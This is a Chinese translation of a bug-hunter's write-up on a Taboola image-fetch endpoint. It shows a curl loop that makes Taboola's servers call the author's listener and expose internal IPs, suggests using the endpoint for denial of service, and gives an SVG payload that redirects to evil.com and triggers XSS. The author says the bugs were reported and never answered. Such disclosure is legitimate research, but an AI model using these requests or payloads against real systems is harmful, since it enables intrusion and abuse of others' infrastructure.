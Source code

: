 # Taboola 上的一个有趣的端点揭示了内部 IPs 和 XSS

> 原文：<https://infosecwriteups.com/a-juicy-endpoint-on-the-taboola-leads-to-reveal-internal-ips-and-xss-d136364a6fb?source=collection_archive---------3----------------------->

我通常每天都会阅读关于安全的新闻，其中一个网站是 [ZDNet](https://www.zdnet.com/) 。在页面底部有一个由 Taboola 推荐广告的空间。

![](img/a1158da48f73231913cd99c25c6403b8.png)

作为一个安全爱好者，我总是尽可能地看一看😁

只需右击广告，通过**检查元素**找到一个有趣的端点。端点从 Taboola CDN 获取图片。

```
[https://images.taboola.com/taboola/image/fetch/](https://images.taboola.com/taboola/image/fetch/)
```

如果您在此端点后插入外部 URL 图像，Taboola 服务器将处理并显示该图片。Taboola 不会检查图片是否来自 CDN！

如果我通过这个端点从 Taboola 向我服务器发送一个请求，会发生什么？于是我就做了，找到了 Taboola 内部 IPs。

我已经通过以下命令准备好了我的服务器，用于监听端口 8000

```
python -m SimpleHTTPServer 8000
```

并通过以下代码从我的 PC 向服务器发送多个请求:

```
for number in {1..100}
do curl -i [https://images.taboola.com/taboola/image/fetch/http://S](https://images.taboola.com/taboola/image/fetch/http://{target)ERVER_IP:8000/$number
done
```

反应非常惊人！！！

Taboola 使用快速 CDN，每当你 ping images.taboola.com**时，你会收到以下响应:**

```
ping images.taboola.com
PING tls13.taboola.map.fastly.net (151.101.193.44) 56(84) bytes of data.
```

**但是我找到了亚马逊的内部 IP！！！**

**![](img/eac74fbdfcf3fc8430d0c3a0248ffb02.png)**

**所以，有了这个有趣的端点，你可以代表 Taboola 服务器运行 DOS 攻击。**

**此外，这些服务器在 22 和 80 上有开放端口，其中一个服务器上有两个 CVE。**

**![](img/4070cfe315855d29df0537c707800413.png)**

**也许您认为这个端点处理图像并接受 SVG 图像😉**

**找到一个 SVG 图像，用文本编辑器打开它。添加以下代码并上传到互联网上。**

**![](img/ef7243111679a1a1139c3c93e0dab6d2.png)**

**最后，我们有这个链接:**

```
[https://images.taboola.com/taboola/image/fetch/**https://www.linkpicture.com/q/dog.svg**](https://images.taboola.com/taboola/image/fetch/https://www.linkpicture.com/q/dog.svg)
```

**不幸的是，端点不能正确处理 SVG 图像，浏览器将下载该文件。但如果你使用 Chrome 或 IE 浏览器，点击下载的图片打开图片，你会重定向到**evil.com****

**您可以将 SVG 文件中的有效负载更改为以下代码来执行 XSS:**

```
onload='alert("XSS")'
```

**我已经在 Taboola 上发现了这些 bug，并在 2020 年 3 月给支持团队发了邮件。他们到现在才回复我！**

**我的推特:[https://twitter.com/seqrity9](https://twitter.com/seqrity9)**